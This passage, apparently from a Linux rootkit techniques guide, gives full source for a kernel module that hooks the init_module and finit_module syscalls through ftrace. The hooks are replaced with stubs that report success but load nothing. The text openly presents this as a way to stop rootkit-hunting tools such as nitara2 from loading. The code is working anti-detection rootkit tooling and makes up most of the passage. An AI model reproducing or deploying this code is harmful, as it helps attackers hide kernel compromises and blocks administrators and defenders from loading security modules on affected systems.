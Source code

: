 ## Hooking insmod

In recent years, some hidden LKM hunters, such as `nitara2`, have emerged to detect hidden Linux kernel rootkits. We can prevent these LKMs from being loaded easily by hooking up the `init_module` and `finit_module` syscall. Below is a code example.

```c
#include <linux/module.h>
#include <linux/kernel.h>
#include "ftrace_helper.h"

MODULE_LICENSE("GPL");
MODULE_AUTHOR("matheuzsec");
MODULE_DESCRIPTION("Hooking init_module and finit_module");
MODULE_VERSION("1.0");

static asmlinkage long (*hooked_init_module)(struct file *file, const char *uargs, unsigned long flags);
static asmlinkage long (*hooked_finit_module)(struct file *file, const char *uargs, unsigned long flags);

static asmlinkage long hook_init_module(struct file *file, const char *uargs, unsigned long flags) {
    return 0;
}

static asmlinkage long hook_finit_module(struct file *file, const char *uargs, unsigned long flags) {
    return 0;
}

static struct ftrace_hook hooks[] = {
    HOOK("__x64_sys_init_module", hook_init_module, &hooked_init_module),
    HOOK("__x64_sys_finit_module", hook_finit_module, &hooked_finit_module),
};

static int __init insmod_init(void) {
    int err;

    err = fh_install_hooks(hooks, ARRAY_SIZE(hooks));
    if (err) {
        return err;
    }

    return 0;
}

static void __exit insmod_exit(void) {
    fh_remove_hooks(hooks, ARRAY_SIZE(hooks));
}

module_init(insmod_init);
module_exit(insmod_exit);
```

<p align="center"><img src="image.png"></p>

This LKM hooks `init_module` and `finit_module`, replacing them with functions that return 0. `return 0` indicates success, but in doing so, they block the execution of the original logic necessary to load other LKMs, being thus, preventing new modules from being loaded.
